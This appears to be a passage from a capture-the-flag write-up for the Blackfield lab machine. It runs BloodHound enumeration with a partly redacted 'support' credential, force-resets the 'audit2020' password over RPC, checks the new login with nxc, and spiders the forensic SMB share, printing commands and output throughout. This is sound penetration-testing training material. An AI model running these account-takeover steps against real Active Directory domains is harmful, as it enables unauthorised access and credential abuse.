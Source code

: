 ```bash
$ bloodhound-python -u support -p '#0<REDACTED>ht' -dc dc01.blackfield.local -c all -d BLACKFIELD.LOCAL -ns 10.10.10.192
INFO: Found AD domain: blackfield.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 316 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
<SNIP>
INFO: Querying computer: DC01.BLACKFIELD.local
WARNING: Failed to get service ticket for DC01.BLACKFIELD.local, falling back to NTLM auth
CRITICAL: CCache file is not found. Skipping...
WARNING: DCE/RPC connection failed: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Done in 00M 06S
```

It seems that the account `support` can change the password of the account `audit2020`:

```bash
# change user's password
$ net rpc password 'audit2020' 'p@ssw0rd!' -U "blackfield.local/support%#0<REDACTED>ht" -S dc01.blackfield.local

# confirm credentials
$ nxc smb 10.10.10.192 -u audit2020 -p 'p@ssw0rd!'
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:p@ssw0rd!
```

> _We can also change the user's password using_ [_`rpcclient`_](https://malicious.link/posts/2017/reset-ad-user-password-with-linux/)_._

Check the conent of the **forensic** share:

```bash
$ nxc smb 10.10.10.192 -u audit2020 -p 'p@ssw0rd!' --share forensic -M spider_plus
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:p@ssw0rd!
SPIDER_P... 10.10.10.192    445    DC01             [*] Started module spidering_plus with the following options:
SPIDER_P... 10.10.10.192    445    DC01             [*]  DOWNLOAD_FLAG: False
SPIDER_P... 10.10.10.192    445    DC01             [*]     STATS_FLAG: True
SPIDER_P... 10.10.10.192    445    DC01             [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_P... 10.10.10.192    445    DC01             [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_P... 10.10.10.192    445    DC01             [*]  MAX_FILE_SIZE: 50 KB
SPIDER_P... 10.10.10.192    445    DC01             [*]  OUTPUT_FOLDER: /tmp/nxc_spider_plus
SMB         10.10.10.192    445    DC01             [*] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
```